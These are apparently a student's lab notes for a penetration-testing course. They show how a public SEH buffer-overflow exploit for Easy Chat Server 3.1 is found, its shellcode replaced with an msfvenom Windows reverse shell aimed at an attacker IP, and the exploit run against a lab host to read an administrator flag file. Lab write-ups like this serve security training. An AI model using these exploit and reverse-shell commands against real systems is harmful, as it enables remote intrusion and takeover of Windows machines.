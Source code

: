 ```bash
searchsploit "Easy Chat Server"
	...
	Easy Chat Server 3.1 - Remote Stack Buffer Overflow (SEH)                  | windows/remote/50999.py
	...

# Download  <-- NOTE  Info says it fails verification, but *should* work
searchcsploit -m 50999
```

- Review code
	- Line *22* shows reverse shell code used

- Craft reverse shell & replace current shellcode Line *24* - *50*
	- Careful to not remove Line *23* - the nop slide.
```bash
# meterpreter shell was non-interactive.  Had to go with this one:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.207 LPORT=4444 -f python -b "\x00\x20" -v shellcode
```

- Run to test
```
python2 50999.py 192.168.198.213 20000       
	[*] Sending evil buffer...
	[+] Done!
```

Once connection's made
```powershell
cd C:\
dir \s flag.txt
type C:\Users\Administrator\Desktop\flag.txt
```

> Answer:  OS{8d347bb15227fa41b7812927dd7df120}